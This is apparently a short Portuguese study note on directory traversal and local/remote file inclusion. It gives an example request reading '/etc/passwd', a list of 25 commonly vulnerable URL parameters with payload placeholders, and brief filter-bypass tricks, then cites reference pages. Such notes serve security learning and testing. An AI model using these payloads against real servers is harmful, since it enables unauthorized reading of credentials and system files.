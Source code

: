 #attack #attack/web #web

**Directory Transversal** ou **path transversal** permite o hacker ler arquivos do servidor que está rodando a aplicação, o que inclui:

- Códigos e dados
- Credenciais
- Arquivos do SO

**LFI:** ler arquivos locais
**RFI:** ler arquivos remotos

Por exemplo:

```
https://website.com/loadImage?filename=../../../etc/passwd
```

### 25 parâmetros mais comuns

```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```


## Bypass

- php filter
- null bytye
- url encode
- duplicar ../ -> ....//


## Referência

https://book.hacktricks.xyz/pentesting-web/file-inclusion
https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle.html